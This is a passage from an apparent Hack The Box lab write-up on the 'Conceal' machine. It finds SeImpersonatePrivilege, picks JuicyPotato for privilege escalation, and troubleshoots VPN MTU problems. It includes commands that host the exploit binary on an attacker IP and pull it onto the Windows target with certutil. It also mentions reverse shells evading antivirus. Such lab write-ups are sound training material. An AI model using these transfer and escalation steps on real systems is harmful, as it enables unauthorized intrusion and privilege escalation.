 This explains the annoying task. However, since the task is running as the user `destitute`, there is no way to use this to escalate. However, looking at the local privledges of the current account shows some interesting ones:

![user7](./conceal/user7.png)

`SeImpersonatePrivilege` is not a common token and makes this machine vulnerable to privledge escalation through the following:

- https://github.com/ohpe/juicy-potato

Download and transfer the binary to the target:

```bash
# download and host binary
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
sudo python3 -m http.server 80
# download binary on target
certutil.exe -urlcache -split -f http://10.10.14.27/JuicyPotato.exe c:\users\destitute\JuicyPotato.exe
```

But this also hangs? Is this still AV?

---

:warning: Had to do some learning here... The following resource showed what is missing to be able to upload large files to the target:

- https://www.youtube.com/watch?v=1ae64CdwLHE

----

It seems like the issue here is MTU size with VPN tunnels. There is already a VPN used to connect to the HTB lab. Adding the other IPsec VPN to connect to the target has caused packets to become too large due to encapsulation. These large packets get dropped by routers along the way. Here is an image that helps:

- **NOTE:** This means the custom C/DLL reverse shells would have bypassed AV...
